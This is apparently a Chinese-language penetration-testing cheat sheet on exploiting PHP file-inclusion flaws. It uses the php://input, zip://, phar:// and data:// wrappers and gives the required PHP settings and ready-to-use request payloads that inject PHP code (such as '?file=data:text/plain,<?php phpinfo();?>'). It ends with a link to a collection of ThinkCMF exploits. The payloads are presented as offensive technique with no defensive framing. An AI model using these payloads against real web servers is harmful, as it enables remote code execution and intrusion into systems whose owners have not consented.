

```
php://input 将POST请求的数据作为PHP代码执行
使用条件：
	allow_url_fopen:Off/On
	allow_url_include: On(必须打开)
使用方法:
?file =php://input
[POST] :   <?php phpinfo();?>(POST DATA中的内容)
```





```
#zip://协议
用途：
	读取压缩文件流协议, 绝对路径/相对路径 读取压缩包内的文件
条件：
	allow_url_fopen:On/Off
	allow_url_include:Off
用法:
	zip://[压缩文件绝对路径/相对路径]#[压缩文件内的子文件名]
	zip://D:/WWW/file.zip%23phpcode.txt
	zip://folder\xxx.zip%23file.txt
	zip://folder\xx.jpg%23xx
```

```
#phar://协议
用途：
	读取压缩包内的文件(相对路径或者绝对路径)
使用条件：
	allow_url_fopen:On/Of
	allow_url_include:off
使用方法
	?file=phar://upload/test.zip/a.php
phar://folder\xxx.jpg\xxx (可用相对路径)

```

```
#data:// 数据流协议
使用条件：
	allow_url_fopen:On
	allow_url_include:On
使用方法：
	?file=data:text/plain,<?php phpinfo();?>
	?file=data:text/plain;base64,base64编码
	?file=data://text/plain,<?php phpinfo();?>
```






ThinkCMF漏洞

https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ThinkCMF%E6%BC%8F%E6%B4%9E%E5%85%A8%E9%9B%86%E5%92%8C.md

